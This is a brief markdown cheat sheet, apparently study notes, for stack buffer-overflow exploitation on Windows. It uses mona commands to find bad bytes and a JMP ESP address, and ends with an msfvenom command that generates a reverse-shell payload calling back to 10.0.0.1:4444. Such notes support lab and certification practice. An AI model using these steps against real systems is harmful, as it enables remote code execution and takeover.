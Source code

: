 # Mona
## Setup working directory
```
!mona config -set workingfolder c:\mona\%p
```

## Finding bad bytes
### Generating bytearray without bad bytes
Generated bytearray is save as `bytearray.bin` in working directory
```
!mona bytearray -b "\x00"
```
### Comparing injected bytearray with generated bytearray
```
!mona compare -f C:\mona\appname\bytearray.bin -a rsp
```

## Finding jump spot
```
!mona jmp -r esp -cpb "\x00\..."
```

## Generating payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 EXITFUNC=thread -b "\x00..." -f c
```